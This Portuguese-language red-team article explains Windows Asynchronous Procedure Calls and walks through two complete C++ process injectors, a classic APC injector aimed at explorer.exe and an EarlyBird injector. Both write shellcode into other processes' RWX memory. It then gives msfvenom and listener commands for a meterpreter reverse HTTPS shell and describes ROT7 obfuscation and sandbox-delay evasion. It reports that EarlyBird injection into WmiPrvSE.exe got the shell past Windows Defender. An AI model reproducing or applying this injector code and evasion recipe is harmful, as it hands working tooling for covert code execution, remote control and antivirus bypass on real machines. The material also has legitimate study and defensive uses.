






# Introdução
Nesse artigo, iremos discutir o funcionamento de APCs em sistemas Windows e como podemos utilizá-las ao nosso favor em cenários de evasão de defesas e red teaming.

Durante o artigo iremos construir alguns artefatos na linguagem C++, sendo dois deles diretamente relacionados à injeção maliciosa de APCs. Na última seção, após todo o arcabouço teórico e prático adquirido, iremos testar um caso de uso real para evasão do Windows Defender.

Caso o leitor queira seguir o passo-a-passo de criação, recomendo configurar a versão mais atual do Visual Studio Community em uma máquina virtual Windows 10, além de marcar a instalação das bibliotecas e ferramentas de compilação C/C++. Todos os códigos deverão ser compilados com a opção "Release" e arquitetura x64, a não ser que outra configuração seja especificada.

Além disso, uma máquina Kali e conhecimentos de redes básico e metasploit/msfvenom são necessários para simular um adversário externo.

Como parte das técnicas e modos de evasão de defesa, é provável que os métodos descritos ou o shellcode sejam detectados e bloqueados com o passar do tempo, devido a melhorias na solução de antivírus.

Abaixo estão links para o instalador do Visual Studio Community e máquina virtual Windows 10 gratuita:

- [Visual Studio Community](https://visualstudio.microsoft.com/pt-br/vs/community/)
- [Máquina virtual Windows 10 Evaluation](https://bit.ly/windowsvm)
  
## Teoria
APCs, ou *Asynchronous Procedure Calls*, são uma forma de sinalizar e executar instruções ou funções de forma assíncrona no contexto de uma thread em um determinado processo.
Podem ser utilizadas como método de callback, e um exemplo desse uso é a função [ReadFileEx](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfileex), que irá informar de forma assíncrona o status de completude ou cancelamento da leitura de um arquivo. 

Existem APCs em kernelmode, que podem ser gerenciadas por certos tipos de drivers, e em usermode, que será o foco desse artigo.

A API necessária para se realizar uma APC em usermode é a `kernel32!QueueUserAPC`, que necessitará de 3 argumentos: um ponteiro para uma função APC (*pfnAPC*), um handle para a thread para onde a APC deverá ser enfileirada (*hThread*) e um ponteiro para argumentos extra a serem repassados para a função (*dwData*).

A documentação da [MSDN sobre as APCs](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc#remarks) informa que não é recomendado o enfileiramento de APCs em threads que não são pertencentes ao processo que chamou `QueueUserAPC`, devido a problemas de *rebasing* e de arquitetura. Porém, não há impedimento a nível de implementação que evite o uso de handles para threads em outros processos.

Nós, como atacantes, vamos ignorar o alerta de problemas relacionados a *rebasing*, visto que nosso shellcode não deverá sofrer alterações de funcionamento por esse motivo, e construiremos um injetor de APCs para threads em processos remotos.

## Prática

### APC Injection clássico

Um atacante poderá utilizar o funcionamento das APCs ao seu favor seguindo os passos descritos abaixo.

1. O processo injetor irá obter um handle para um processo-vítima existente, com permissões de leitura, escrita e execução;
2. O injetor irá, então, alocar uma memória RWX no processo remoto e escreverá um shellcode malicioso - essa será nossa função APC;
3. A APC injetada deverá ser enfileirada para uma ou mais threads no processo-vítima;
4. O atacante deverá aguardar até que uma das threads entre em modo "alertable". Entrando nesse modo, a thread irá executar as APCs enfileiradas e, consequentemente, o nosso shellcode.

Note como o processo é bem semelhante a um *Process Injection* comum, onde a criação de uma thread remota é subsituída pela chamada assíncrona. Entretanto, o passo 4 é um dos principais pontos negativos dessa injeção, visto que não conseguiremos obter sucesso na execução em qualquer processo que esteja rodando no alvo.

No Windows, apenas alguns processos nativos têm threads que ficam no estado alertable. O mais famoso caso é o *explorer.exe*, que sempre está em execução em sistemas Windows e sempre terá pelo menos uma thread que ficará em estado alertable em algum momento. Por esses dois motivos, ele se torna uma peça central para atacantes que desejam utilizar tal técnica.

> Segundo a [MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls), uma thread ficará em modo *alertable* quando há a chamada de alguma das funções abaixo:
> - `SleepEx`
> - `SignalObjectAndWait`
> - `MsgWaitForMultipleObjectsEx`
> - `WaitForMultipleObjectsEx`
> - `WaitForSingleObjectEx`

Um problema relacionado ao uso dessa técnica é que seu uso pode resultar em um crash da aplicação injetada. Podemos tentar diminuir a probabilidade de crashes ao limitar a quantidade de threads para as quais o shellcode deverá ser enfileirado.

Para testarmos na prática a eficácia da técnica APC Injection, utilizaremos a solução do Visual Studio disponível no meu [Github](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Examples/APC%20Injector) e utilizaremos o *explorer.exe* como alvo da nossa técnica.

Vamos, primeiramente, fazer um *walthrough* pelo código do injetor.

#### APC Injector
Nosso injetor será executado repassando o nome de um processo presente na máquina.

No nosso código, utilizaremos principalmente funções da `windows.h` para alocar memória e injetar o shellcode e a `tlhelp32.h` para realizarmos um "snapshot" do estado atual do sistema, ação que permite a navegação por processos e threads. As funções importadas da `iostream` são opcionais e servirão para debugging, e utilizaremos sempre que possível as versões de funções que tratam dados UTF-16 devido a uma melhor compatibilidade com certas estruturas que usaremos no código.

Utilizaremos uma diretiva de pré-processamento para definirmos uma macro (`THREAD_INJECTION_LIMIT`) que limitará a quantidade de threads que devem sofrer injeção. Isso é importante para termos mais controle sobre como a injeção é realizada, buscando evitar crashes. Porém, ao definirmos um limite, é possível que uma thread alertable não tenha o shellcode incluído nas sua fila de APCs. Aumente o valor caso a injeção não funcione.

Definiremos uma variável global para guardar nosso shellcode x64, que, nesse caso, tem apenas a função de executar uma MessageBox. [Link](https://gist.github.com/kkent030315/b508e56a5cb0e3577908484fa4978f12) para o gist original do shellcode.

```cpp
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

#define THREAD_INJECTION_LIMIT 2

// Spawns a MessageBox
unsigned char shellcode[] = \
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";
```

As primeiras linhas de código da main irão garantir que o usuário deverá repassar um nome de um processo para prosseguir com a técnica.

```cpp
int wmain(int argc, wchar_t **argv) {
    if (argc < 2) {
        std::wcout << "USAGE: " << argv[0] << " <proc_name>" << std::endl;
        return 1;
    }
```

Prosseguindo, iremos chamar a função [CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot), passando a constante `TH32CS_SNAPPROCESS` e o valor `0` como segundo argumento para enumerarmos todos os processos no sistema.

Após isso, iremos definir a variável `procEntry` do tipo `PROCESSENTRY32`, que será utilizada para iterar sobre a lista de processos em um laço for (como explícito no código pelo uso das funções `Process32First` e `Process32Next`).

Quando encontrarmos um processo que tenha o nome igual ao repassado por `argv[1]`, o laço se quebrará e iremos imprimir o valor do seu PID. Caso contrário, o laço irá esgotar e o injetor informará que não há processo com tal nome.

```cpp
    std::wcout << "[+] Getting list of active processes..." << std::endl;

    // Creating ToolHelp32 to search through all the processes
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcout << "[-] Error in getting list of active processes" << std::endl;
        return 1;
    }

    PROCESSENTRY32 procEntry;
    procEntry.dwSize = sizeof(PROCESSENTRY32);

    // Searching for the process whose name is pointed by argv[1]
    // By default, if it doesn't find it, the process chosen will be the injector itself
    std::wcout << "[+] Trying to find " << argv[1] << " in the list..." << std::endl;
    for (auto proc = Process32First(hSnapshot, &procEntry); proc; proc = Process32Next(hSnapshot, &procEntry)) {
        if (!lstrcmpW(argv[1], procEntry.szExeFile)) {
            break;
        }
    }

    if (!lstrcmpW(argv[1], procEntry.szExeFile)) {
        std::wcout << "[+] Found process " << procEntry.szExeFile << " with PID " << procEntry.th32ProcessID << std::endl;
    }
    else {
        std::wcout << "[~] No process " << argv[1] << " found. Why not try explorer.exe?" << std::endl;
        return 1;
    }

    CloseHandle(hSnapshot);
```

Assumindo que o processo existe, vamos definir algumas variáveis que serão utilizadas ao longo do código e faremos uso da API [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) repassando os valores `PROCESS_ALL_ACCESS`, que nos dá permissão total, e o PID do processo, que está em `procEntry.th32ProcessID`. Teremos como retorno um handle.

```cpp
    HANDLE hProcess = NULL;
    SIZE_T lpNumberOfBytesWritten;

    // Opening process pointed by procEntry.th32ProcessID
    std::wcout << "[+] Opening chosen process..." << std::endl;
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, procEntry.th32ProcessID);
    if (hProcess == INVALID_HANDLE_VALUE) {
        std::wcout << "[-] Error opening process " << procEntry.th32ProcessID << std::endl;
        return 1;
    }
```

A seguir, alocaremos uma região de memória RWX no processo remoto com [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), repassando o handle adquirido, definindo o tamanho a ser alocado como o tamanho do shellcode, a soma das flags `MEM_RESERVE` e `MEM_COMMIT` como tipo de alocação e `PAGE_EXECUTE_READWRITE` como tipo de proteção das páginas de memória (RWX).

```cpp
    // Allocating memory in remote process
    std::wcout << "[+] Allocating " << sizeof(shellcode) << " bytes in remote process.." << std::endl;
    LPVOID allocatedMem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!allocatedMem) {
        std::wcout << "[-] Error in allocating memory" << std::endl;
        return 1;
    }
```

Caso a alocação tenha sucesso, iremos escrever nosso shellcode no processo remoto com [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

```cpp
    // Writing shellcode to allocated memory
    std::wcout << "[+] Writing shellcode at 0x" << std::hex << allocatedMem << std::endl;
    BOOL status = WriteProcessMemory(hProcess, allocatedMem, shellcode, sizeof(shellcode), &lpNumberOfBytesWritten);
    if (!status) {
        std::wcout << "[-] Error in writing shellcode" << std::endl;
        return 1;
    }
```

Com o shellcode já injetado, teremos que enfileirá-lo em uma APC em uma thread que fique em um estado *alertable*. Para enumerarmos as threads de todos os processos no sistema, utilizaremos novamente a API `CreateToolHelp32Snapshot` passando a constante `TH32CS_SNAPTHREAD` como primeiro argumento.

```cpp
   std::wcout << "[+] Getting list of all threads in the system..." << std::endl;
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        std::wcout << "[-] Error in getting list of active threads" << std::endl;
        return 1;
    }
```

Na última parte do injetor, devemos instanciar uma struct `THREADENTRY32` que servirá para armazenar temporariamente cada thread do sistema no laço `for`. Seu valor vai ser modificado a cada iteração por `Thread32Next`.

Para injetarmos apenas nas threads do processo vítima, realizaremos a comparação `threadEntry.th32OwnerProcessID == procEntry.th32ProcessID`, onde o PID do processo que contém a thread é comparado com o PID do nosso processo alvo.

Caso essa comparação seja verdadeira, iremos obter um handle de acesso total à thread com [OpenThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthread), repassando o valor `THREAD_ALL_ACCESS` como primeiro argumento.

Por fim, usaremos [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc), repassando a localização remota do shellcode escrito, o handle para a thread e o valor NULL - para indicar que não é necessário repassar argumentos para o shellcode.

```cpp
    THREADENTRY32 threadEntry;
    threadEntry.dwSize = sizeof(THREADENTRY32);

    // Finally, call QueueUserAPC to the main thread
    std::wcout << "[+] Getting list of active threads in target process..." << std::endl;

    unsigned int i = 0;
    for (auto thread = Thread32First(hSnapshot, &threadEntry); thread && i < THREAD_INJECTION_LIMIT; thread = Thread32Next(hSnapshot, &threadEntry)) {
        if (threadEntry.th32OwnerProcessID == procEntry.th32ProcessID) {
            // Code for queueing APC to main thread
            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, 0, threadEntry.th32ThreadID);
            if (!hThread) {
                std::wcout << "[-] Failed opening thread " << threadEntry.th32ThreadID << std::endl;
                continue;
            }
            
            std::wcout << "[+] Queueing APC for thread " << threadEntry.th32ThreadID << "..." << std::endl;
            QueueUserAPC((PAPCFUNC)allocatedMem, hThread, NULL);
            i++;
        }

    }
}
```

Note que na comparação do laço for estamos utilizando uma variável local `i`, comparada no início com `THREAD_INJECTION_LIMIT` e incrementada ao fim dele, para evitar que a injeção se dê em todas as threads.

Abaixo podemos ver o resultado quando o alvo é o *explorer.exe*. Foi utilizado o um valor de `THREAD_INJECTION_LIMIT` de 2, mas é possível que a cada execução esse valor possa mudar. Caso o shellcode não rode, é recomendado aumentar esse valor e tentar novamente.



Ao clicar no "Ok", o processo do explorer irá crashar, porém nosso shellcode foi executado com sucesso.

### EarlyBird Injection
Para ilustrarmos a efetividade do uso de APCs em cenários de evasão de defesas, iremos testar uma variação de injeção chamado EarlyBird, ou, "O madrugador".

O EarlyBird tem esse nome devido ao modo como a APC é injetada no processo-alvo. Sua vantagem com relação à técnica descrita na seção anterior é que não é necessário que um processo esteja rodando e tenha uma thread que entre em modo alertable para que ele seja vítima. Para isso, o injetor irá criar um processo em modo suspenso - em que a thread principal ainda não iniciou - configurar e enfileirar a função maliciosa e ela sempre irá rodar, visto que APCs também são executadas assim que um processo criado em modo suspenso é resumido.

> Por criar um processo em modo suspenso, a injeção EarlyBird pode ter um nível de detecção maior soluções mais sofisticadas, como EDRs.

Vamos analisar a construção do [código](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Examples/EarlyBird%20Injector).

#### EarlyBird Injector
O código a seguir é uma *proof-of-concept* da técnica EarlyBird.

Utilizaremos as funções com protótipos definidos nos headers `windows.h` e `iostream` para a construção do injetor e funcionamento auxiliar, como escrita de mensagens.

Também iremos definir uma variável global para guardar nosso shellcode x64 - como no caso anterior, apenas um shellcode não malicioso que utiliza MessageBox.

```cpp
#include <iostream>
#include <windows.h>

// Spawns a MessageBox
unsigned char shellcode[] = \
"\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
"\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
"\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
"\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
"\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
"\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
"\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
"\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
"\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
"\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
"\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
"\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
"\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
"\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
"\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
"\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
"\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
"\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
"\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
"\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
"\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
"\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
"\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
"\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
"\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
"\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
"\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
"\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
"\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";
```

A primeira coisa que o código da função *main* apresenta é a possibilidade de usarmos o injetor em qualquer processo. Para isso, o código abaixo apresenta a implementação que permite especificar o caminho completo até o EXE vítima através da linha de comando.

```cpp
int main(int argc, char **argv) {
    if (argc < 2) {
        std::cout << "USAGE: " << argv[0] << " <path\\to\\process>" << std::endl;
        return 1;
    }
```

O seguinte trecho irá utilizar o path para o EXE especificado em `argv[1]` como primeiro argumento da função [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa). Criaremos variáveis locais tendo como tipo as estruturas `STARTUPINFOA` (além da sua inicialização) e `PROCESS_INFORMATION`, para que a criação do processo tenha sucesso. Além disso, é importante que a flag de criação seja `CREATE_SUSPENDED`, para que a thread principal não seja executada imediatamente, gerando uma oportunidade para efetuarmos a injeção.

```cpp
    STARTUPINFOA startupInfo = {sizeof(STARTUPINFOA)};
    PROCESS_INFORMATION procInfo;

    std::cout << "[+] Creating process " << argv[1] << "..." << std::endl;
    BOOL status = CreateProcessA(argv[1], NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &startupInfo, &procInfo);
    if (!status) {
        std::cerr << "Error on CreateProcess: " << GetLastError() << std::endl;
        return 1;
    }
		std::cout << "   \\_ [+] PID: " << procInfo.dwProcessId << std::endl;
```

Após a criação bem sucedida, devemos alocar um espaço de memória RWX no processo remoto. Para isso, podemos utilizar a função [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), repassando o handle para o processo, um endereço preferencial, tamanho, tipo de alocação e de proteção das páginas de memória.

No injetor, o handle para o processo vítima está em `procInfo.hProcess`. Definiremos o tamanho da alocação para o tamanho do shellcode, além soma das constantes `MEM_RESERVE` e `MEM_COMMIT` para o tipo de alocação. Para definirmos as páginas de memória alocadas como RWX, iremos utilizar a contante `PAGE_EXECUTE_READWRITE`.

```cpp
    std::cout << "[+] Allocating memory in remote process..." << std::endl;
    LPVOID shellcodeRemoteLocation = VirtualAllocEx(procInfo.hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!shellcodeRemoteLocation) {
        std::cerr << "Error on VirtualAllocEx: " << GetLastError() << std::endl;
        return 1;
    }
    std::cout << "   \\_ [+] Allocated " << sizeof(shellcode) << " bytes at region " << std::hex << " 0x" << shellcodeRemoteLocation << std::endl;
```

A seguir, utilizaremos a função [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) para escrevermos o nosso shellcode na localização previamente alocada pelo `VirtualAllocEx`. Criaremos uma variável do tipo SIZE_T para guardarmos a quantidade de bytes escrita pela função - sem um ponteiro para ela, a função não irá funcionar.

```cpp
    std::cout << "[+] Trying to write shellcode at allocated memory..." << std::endl;
    SIZE_T numberOfBytesWritten = 0;
    status = WriteProcessMemory(procInfo.hProcess, shellcodeRemoteLocation, shellcode, sizeof(shellcode), &numberOfBytesWritten);
    if (!status) {
        std::cerr << "Error on WriteProcessMemory: " << GetLastError() << std::endl;
        return 1;
    }
    std::cout << "   \\_ [+] Shellcode wrote successfully" << std::endl;
```

Iremos novamente fazer o uso da [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) para enfileirarmos o nosso shellcode remoto na thread principal do processo ainda em suspensão.

Para isso, iremos fazer um casting da região que alocamos no processo vítima para um ponteiro de uma função APC (`PAPCFUNC`), a thread principal do programa (obtida por `procInfo.hThread`) e NULL como último parâmetro para indicarmos que o shellcode não necessita de argumentos.

```cpp
    std::cout << "[+] Attempting to call shellcode via QueueUserAPC..." << std::endl;
    QueueUserAPC((PAPCFUNC)shellcodeRemoteLocation, procInfo.hThread, NULL);
```

Em resumo, teremos uma região de memória RWX alocada em um outro processo, que está armazenando um shellcode que foi enfileirado como uma APC da thread principal. Agora o que nos resta é resumir a thread principal, com `ResumeThread`.

```cpp
    ResumeThread(procInfo.hThread);
    std::cout << "   \\_ [+] Success" << std::endl;

    std::cout << "[+] EarlyBird injection successful :)" << std::endl;
}
```

O resultado está expresso na imagem abaixo.




Agora que já entendemos o funcionamento das variações, vamos explicar um caso de uso, testado em laboratório, para bypass do Windows Defender.

## Evadindo Windows Defender com injeções APC

Nesta seção, iremos tentar realizar o bypass dos módulos de Real Time Protection e Cloud-delivered Protection do Windows Defender. Para isso, testaremos a eficiência dos códigos de APC Injection, EarlyBird e Shellcode Runner (apenas um *wrapper* para rodar shellcode em um EXE), quando utilizados para injetar/carregar um payload do meterpreter, com níveis iguais de ofuscação e evasão de defesas. Os níveis são os seguintes:

- Detecção de ambientes Sandbox para evasão de Antivírus, via `GetSystemTime` (delay de 10 segundos na execução). Caso uma sandbox seja detectada, o processo deverá encerrar;
- Evasão de assinaturas com uso de encoder ROT7 para armazenar o shellcode no injetor. O código do ofuscador ROT7 está disponível no [Github](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeObfuscator), sendo apenas necessário alterar a variável global "shellcode" para o shellcode gerado.

O Shellcode Runner é nosso teste de controle, e os demais serão colocados à prova com relação à sua efetividade de acordo com a detecção/bloqueio recebidas no laboratório controlado.

> Comando utilizado para gerar shell reversa x64 staged HTTPS do meterpreter:
> - `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.2 LPORT=443 EXITFUNC=thread -f c`
> 
> Comando para criar um listener no meterpreter:
> - `msfconsole -x "use multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.100.2; set LPORT 443; set EXITFUNC thread; exploit"`

### Resultados Shellcode Runner
O código do Shellcode Runner utilizado está disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeExecutor). 

Como explicado anteriormente, estamos utilizando o Shellcode Runner apenas como ponto de controle. Caso ele não seja detectado, então nossos níveis-padrão de ofuscação e evasão possivelmente são os responsáveis principais por esse resultado, e não as injeções APC. Caso contrário, temos uma boa probabilidade de que as técnicas que não foram detectadas obtiveram sucesso por causa da injeção realizada.

Tal artefato foi identificado e bloqueado antes mesmo de executar qualquer instrução, evidenciando que apenas as evasões de assinatura e de sandbox existentes não seriam capazes de evadir o Windows Defender.



### Resultados APC Injector
O código do APC Injector utilizado está disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/APCInjector). 

A injeção foi realizada no *explorer.exe*, porém, houve bloqueio do Windows Defender pouco após o estabelecimento da shell reversa, como destacado na imagem abaixo.



### Resultados EarlyBird

O código do EarlyBird utilizado está disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/EarlyBird).

Devido à natureza da injeção EarlyBird, podemos utilizá-la para enfileirar APCs em praticamente qualquer processo que possa ser criado diretamente por nosso usuário. Logo, vamos fazer alguns testes com relação aos processos *explorer.exe* e *svchost.exe*.

O motivo para a escolha desses dois arquivos em específico é que o explorer.exe é um processo muito comum e que existe sempre em qualquer sistema Windows, que pode passar despercebido por softwares Antivírus. Já o svchost.exe também é comum e geralmente não gera suspeitas com relação ao tráfego de rede.

Na imagem abaixo, podemos evidenciar o resultado do *explorer.exe*. A injeção foi um sucesso. Entretanto, ao tentarmos executar alguns comandos do meterpreter, como o comando *shell*, que nos dá controle sobre o cmd.exe do alvo, somos apresentados com bloqueios, com base em comportamento, do Windows Defender, que evita nosso acesso a shell local.





Tal comportamento também ocorreu no *svchost.exe*:



Possivelmente o Windows Defender monitora de perto as ações que o *explorer.exe* e *svchost.exe* realizam no sistema. A criação de um processo-filho do cmd.exe pode ser visto como comportamento suspeito a partir desses processos.

#### O caso WmiPrvSe.exe

O arquivo `C:\Windows\System32\wbem\WmiPrvSE.exe` é um caso especial, visto que ele pode ser utilizado para criar diversos outros processos. Uma reflexão surge a partir dessa informação: será que o comando *shell* do meterpreter seria executado sem bloqueios?

Testando a injeção EarlyBird, com o mesmo shellcode utilizado anteriormente, mas agora tendo como alvo o arquivo `WmiPrvSE.exe`, resultou em estabelecimento com sucesso da comunicação reversa, como no caso anterior, porém também foi possível executar o comando *shell*, sem bloqueios pelo Windows Defender:


## Conclusão

O cenário mais efetivo para evasão dos módulos Real Time Protection e Cloud-delivered Protection do Windows Defender durante os testes realizados foi a injeção EarlyBird.

Não houve detecção do injetor, nem do conteúdo injetado, apenas bloqueio por comportamento de certas funcionalidades (como o comando shell) do meterpreter quando ele foi injetado no *explorer.exe* e *svchost.exe*.

Esse problema foi mitigado ao utilizarmos como alvo o arquivo `C:\Windows\System32\wbem\WmiPrvSE.exe`.

É importante ressaltar que é possível gerar um shellcode para o EarlyBird que não é detectado ao ser injetado no *explorer.exe* ou *svchost.exe* - no msfvenom, executando novamente o comando para gerar um shellcode pode ser o suficiente. Muitos shellcodes foram gerados, e alguns deles funcionavam 100% nesses dois arquivos.

Entretanto, durante os testes, o cenário mais estável para injeção foi o `WmiPrvSE`, no qual todas as variações de shellcode testadas resultaram em sucesso e não detecção do comando *shell*.